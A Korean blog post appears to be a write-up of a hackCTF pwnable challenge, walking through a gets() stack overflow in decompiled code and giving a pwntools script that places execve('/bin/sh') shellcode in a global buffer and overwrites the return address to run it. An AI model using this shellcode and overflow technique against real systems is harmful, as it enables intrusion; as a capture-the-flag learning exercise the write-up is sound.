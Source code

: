 ```yaml
---
layout: post
title:  "[hackCTF]내 버퍼가 흘러넘친다!!"
date:   2020-02-11
---
```


hackCTF pwnable 네번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name : ");
  read(0, &name, 0x32u);
  printf("input : ");
  gets(&s);
  return 0;
}
```
<br>

정리해보자.<br><br>

***

|   ret   |          |
|:-------:|:--------:|
|   sfp   |  (4byte) |
|   ebp   | esp+0x14 |
|   ...   |          |
| s (esp) |          |

***

목표 : name에 쉘코드 작성 + ret을 name의 주소로 덮기<br>
취약점 : gets(&s)<br><br>
이번에는 read와 gets를 통해 입력 받을 수 있다. read를 통해 name에 쉘코드를 작성하고 gets를 통해 main 함수의 에필로그 과정에서 ret 대신 name의 쉘코드를 실행시키자<br><br><br>
+) name의 주소는 다음과 같이 .bss영역에 위치한다. 초기값이 없는 전역변수인 모양<br>
![0401](https://drive.google.com/uc?id=14EaC2vWFLHK-FQc2rLPv8xVBi1ZY0H7m)


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3003)

payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload2 = "A"*0x18+p32(0x0804A060)

p.recvuntil("Name : ")

p.send(payload)

p.recvuntil("input : ")

p.sendline(payload2)

p.interactive()
```
## 결과  
![0402](https://drive.google.com/uc?id=19pKWvGck62pXej_Gd1MQ-I4VVeLBke5C)
